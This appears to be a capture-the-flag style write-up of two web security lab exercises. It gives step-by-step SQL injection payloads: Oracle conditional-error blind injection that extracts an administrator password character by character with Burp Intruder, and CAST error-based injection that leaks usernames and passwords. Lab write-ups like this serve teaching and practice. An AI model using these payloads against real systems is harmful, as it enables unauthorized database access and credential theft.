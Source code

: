 **Step1**

Click on any categories

**Step2**

Send request in repeater as in previous labs.

**Step3.**

Adding single quote for testing

Adding double quote ' '

**Step4**

Here it is clear that it is interpreting it as a query

So we try with

By using `'||(SELECT '' FROM DUAL)||'`  this statement it contain DUAL keyword it is clear that the user use oracle database.

Because by replacing Dual with table name it gives error.

**Step5**

Now we try to retrieve rowone from usertable

`'|| (SELECT '' FROM USER WHERE ROWNUM=1)||'`

Returning more than one row will break concatenation

**Step6**

Now we try

`'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`

Here we have error because if condition is execute.

Now we try

`'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`

**Step7**

Confirming the user administrator is present

`'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`

Or use

`'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`

Then the out should give error

**Step8**

Finding length of password

`'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'`

To find the exact length we use intruder select.

Select the 1

`'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'`

Payload setting

From the result it is clear that password length is 20 because we get okay response after 200

**Step9**

Now we find password for each index

`'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`

This query is used to find password for first index if the result is error then we say the password is correct.

To find password for all index we user cluster bombattack in burpsuite.

And select the password index value and charater value for payload position.

Payload 1 setting

Payload2 setting

Password:8vo43nhqeatkzqu386ht

**Step 1:**

Click on any categories as in previous lab

**Step2:**

Send the response of the request to repeater.

**Step3**

Add single quote and se result '

We see error In response and  we have

Now when we replace `'` with` '-- `the error remove

**Step4:**

Now we add generic query

`' AND CAST((SELECT 1) AS int)--`

We have response

So we use

`' AND 1=CAST((SELECT 1) AS int)--`

**Step5:**

`' AND 1=CAST((SELECT username FROM users) AS int)--`

In response we have error message

So we remove tracking id

We have response

**Step 6**

As it return more then I row we restrict it to 1

`' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--`

Response

So we extract password using

`' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--`

In response we have
